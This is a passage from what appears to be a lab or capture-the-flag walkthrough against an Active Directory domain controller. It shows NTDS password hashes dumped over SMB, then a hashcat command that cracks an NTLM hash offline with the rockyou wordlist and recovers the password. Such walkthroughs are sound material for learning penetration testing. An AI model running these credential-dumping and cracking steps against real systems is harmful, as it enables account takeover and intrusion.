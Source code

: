 ```c
SMB         10.129.189.127  445    ILF-DC01         ILF.local\gwaffle:1109:aad3b435b51404eeaad3b435b51404ee:07a0bf5de73a24cb8ca079c1dcd24c13:::
SMB         10.129.189.127  445    ILF-DC01         ILF-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:8882ad272890d15db5fc1533991d9cd6:::
SMB         10.129.189.127  445    ILF-DC01         LAPTOP01$:1111:aad3b435b51404eeaad3b435b51404ee:be2abbcd5d72030f26740fb531f1d7c4:::
SMB         10.129.189.127  445    ILF-DC01         [+] Dumped 9 NTDS hashes to /home/r3so1v3/.cme/logs/ILF-DC01_10.129.189.127_2024-10-14_005032.ntds of which 7 were added to the database
                                                                                     
```

In my case the NT hash was: `92fd67fd2f49d0e83744aa82363f021b`
So we need to crack it via hashcat:
```c
sudo hashcat -m 1000 92fd67fd2f49d0e83744aa82363f021b /usr/share/wordlists/rockyou.txt   
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz, 1904/3873 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

92fd67fd2f49d0e83744aa82363f021b:Winter2008               
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 92fd67fd2f49d0e83744aa82363f021b
Time.Started.....: Mon Oct 14 00:58:13 2024 (1 sec)
Time.Estimated...: Mon Oct 14 00:58:14 2024 (0 secs)
Kernel.Feature...: Pure Kernel
```